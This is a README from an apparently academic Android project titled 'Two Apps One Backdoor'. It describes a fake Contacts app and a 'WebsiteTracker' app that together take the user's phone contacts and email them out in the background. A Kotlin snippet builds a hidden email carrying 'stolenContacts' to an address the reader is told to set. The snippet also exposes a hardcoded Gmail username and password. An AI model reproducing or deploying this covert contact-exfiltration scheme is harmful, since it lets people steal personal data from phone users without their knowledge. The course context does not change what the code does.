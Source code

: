 # Two Apps One Backdoor

## Description

This is a third-year student project for the mobile development subject at the Enseirb-Matmeca of Bordeaux (France).

This project is made up of two applications:

- **Contacts**: Displays the phone contacts (a seemingly Google Contacts application).
- **WebsiteTracker**: Provides a sort of "tracker" for websites with dates of visit and ratings of these visited websites.

In background, **Contacts** exfiltrates the data contact thanks to a ContentProvider, and **WebsiteTracker** sends an email with this data.

## Usage

In order to custom the mail address, go to the `MainActivity` of the **WebTracker** application. Then just replace the `withMailto()` parameter with your desired mail.

```kt
  newBuilder(this)
            .withUsername("it362.test2021@gmail.com")
            .withPassword("enseirbtest")
            .withMailto("it362.test2021@yopmail.com")
            .withType(TYPE_PLAIN)
            .withSubject("Android project")
            .withBody("stolenContacts= ${Gson().toJson(stolenContacts)}")
            .withOnSuccessCallback {
                Log.i("MainActivity", "Successful mail sending!")
            }
            .withOnFailCallback {
                Log.e("MainActivity", "Error occurred while sending mail...")
            }
            .withProcessVisibility(false)
            .send()
```

## Authors and acknowledgment

Deborah PEREIRA and Sophie STAN.

---

Special thanks to [yesidlazaro](https://github.com/yesidlazaro) whose library for [background mails](https://github.com/yesidlazaro/GmailBackground) helped us save much boilerplate code.
